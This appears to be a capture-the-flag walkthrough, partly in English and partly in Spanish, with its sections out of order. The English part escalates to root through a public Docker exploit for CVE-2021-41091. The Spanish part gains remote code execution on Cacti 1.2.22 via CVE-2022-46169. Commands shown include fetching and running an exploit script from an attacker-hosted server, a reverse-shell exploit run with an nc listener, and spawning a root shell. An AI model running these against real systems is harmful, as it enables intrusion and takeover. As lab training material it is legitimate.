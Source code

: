 Clone the repo in our machine:

```sh
git clone https://github.com/UncleJ4ck/CVE-2021-41091
`````

Lets transfer the file, there are some differents ways to do it but I will use python:
```sh
python3 -m http.server
`````

With wget I will download and run it from the attacked machine:
```sh
wget http://<ip>/exp.sh
chmod +x exp.sh
./exp.sh
`````

![6Pic]({{ '../assets/img/6.png' | relative_url }}){: .center-image }

In some cases, it will spawn us the root shell, if it doesn't work we can just do what the script says at the end, go to that path and execute the "/bin/bash -p"
```sh
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
`````

Easy pwned.
#### Reconocimiento

![FirstPic]({{ '../assets/img/1.png' | relative_url }}){: .center-image }

La web redirige a un panel de autenticación, tras fuzzear no encontramos nada interesante así que regresamos a la web.

![SecondPic]({{ '../assets/img/2.png' | relative_url }}){: .center-image }

Viene el nombre de la aplicación web así como su versión por lo que buscamos si está obsoleta.

![3Pic]({{ '../assets/img/3.png' | relative_url }}){: .center-image }

#### Explotación

Vemos que hay varios exploits disponibles, el de la versión 1.2.22 nos permite ejecución remota de comandos por lo que lo traemos a nuestro equipo y lo ejecutamos:

```bash
searchsploit -m php/webapps/51166.py
python3 51166.py -u http://10.10.11.211/ -p <LPORT> -i <LHOST>
`````

En mi caso este exploit dio varios errores por lo que usé este de github: https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22


```bash
nc -nlvp <LPORT>
`````
